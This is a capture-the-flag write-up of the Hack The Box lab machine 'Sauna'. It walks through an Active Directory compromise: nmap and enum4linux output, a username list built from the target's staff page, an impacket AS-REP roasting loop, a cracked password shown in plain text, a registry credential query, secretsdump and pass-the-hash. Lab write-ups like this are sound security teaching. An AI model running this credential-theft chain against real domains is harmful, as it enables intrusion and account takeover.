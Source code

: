 ```yaml
---
layout: post
title:  Sauna
categories: hackthebox
tags: [hackthebox, windows, easy, kerberos, impacket, secretsdump, pass-the-hash, kerberoasting]
lang: "en"
image:
    path: assets/images/hackthebox/sauna/preview.png
    width: 300
    height: 300
---
```


![sauna](../../../../assets/images/hackthebox/sauna/sauna.png)

# abstract

Sauna is an easy rated box on [hackthebox](https://hackthebox.eu){:target="_blank"}. It was created by [Shaun Whorton](https://twitter.com/WhortonMr){:target="_blank"}. 
To successfully hack this machine you need some Windows enumeration skills, Kerberoasting and a Pass-The-Hash attack.

# enumeration

## nmap

As always I start a nmap scan first.

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-18 03:47 EDT
Nmap scan report for sauna.htb (10.10.10.175)
Host is up (0.031s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-18 14:52:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49287/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/18%Time=5F12A914%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h05m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-18T14:54:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 303.75 seconds
```

There are many open ports, maybe enum4linux will bring more information.

## enum4linux

```bash
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jul 18 03:59:18 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... sauna.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ================================================= 
|    Enumerating Workgroup/Domain on sauna.htb    |
 ================================================= 
[E] Can't find workgroup/domain


 ================================== 
|    Session Check on sauna.htb    |
 ================================== 
[+] Server sauna.htb allows sessions using username '', password ''
[+] Got domain/workgroup name: 

 ======================================== 
|    Getting domain SID for sauna.htb    |
 ======================================== 
Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766
[+] Host is part of a domain (not a workgroup)

 ========================== 
|    Users on sauna.htb    |
 ========================== 
[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED

[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED
enum4linux complete on Sat Jul 18 03:59:30 2020
```

There are no new findings here, the services all seem to be unable to be used without a valid login.

## HTTP on Port 80

The easiest way is first to have a look at the website on port 80.

![sauna.htb](../../../../assets/images/hackthebox/sauna/0_sauna.htb.png)

Ok, it seems to be a kind of advertising page for the Egotistical Bank.

Always before I search for technical vulnerabilities on a website, I first look what information the website provides me voluntarily.

![Sauna Team](../../../../assets/images/hackthebox/sauna/1_team.png)

In this case I find a team page with employees.

This can be a hint for user logins, so I create a list of possible usernames.

```text
fergus
smith
fergussmith
fsmith
ferguss
shaun
coins
shauncoins
scoins
shaunc
sophie
driver
sophiedriver
sdriver
sophied
bowie
taylor
bowietaylor
btaylor
bowiet
hugo
bear
hugobear
hbear
hugob
steven
kerb
stevenkerb
skerb
stevenk
```

# exploitation

What I've found out so far: Nmap gives me the domain and the information that Kerberos is used.

So I'm trying to figure out if I can get a valid ticket. For this I use impacket.

```bash
host=sauna.htb
domain=EGOTISTICAL-BANK.local

for user in $(cat usernames.txt)
do
	echo "check $user"
	python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py $domain/$user -no-pass -dc-ip 10.10.10.175
done
```

![Brute](../../../../assets/images/hackthebox/sauna/2_brute.png)

That was fast, the first username gives me a valid ticket, now I can try if I can crack it with John.

![crack the hash](../../../../assets/images/hackthebox/sauna/3_crack.png)

After a few seconds John already gives me the valid password: Thestrokes23

Then I will try to get into the system with this credentials.

![userflag](../../../../assets/images/hackthebox/sauna/4_userflag.png)

Bingo! I'm in and on the desktop the userflag is already ready for me.

# privilege escalation

Some enumeration has been necessary for the privilege escalation. You can find a good guide [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation){:target="_blank"}.

When querying for winlogon credentials, a default password for the standard user svc_loanmanager is dropped.

![reg query](../../../../assets/images/hackthebox/sauna/5_reg_query.png)

After some attempts to log in with the username and password without success I looked at the folders under C:\Users.

I noticed that the user is called loanmgr and not loanmanager.

![loanmgr](../../../../assets/images/hackthebox/sauna/7_loanmgr.png)

So let's try again. This time I try to get a dump with impacket and it works.

![secretsdump](../../../../assets/images/hackthebox/sauna/6_secretsdump.png)

I can now try to crack the credentials or I can use a Pass-The-Hash attack.

If you pass the hash with evil-winrm you get a valid shell as administrator.

![root](../../../../assets/images/hackthebox/sauna/8_root.png)

That's it, a great box to get into Windows hacking with Active Directory, Kerberos and Co. Thanks a lot [Shaun Whorton](https://twitter.com/WhortonMr){:target="_blank"}.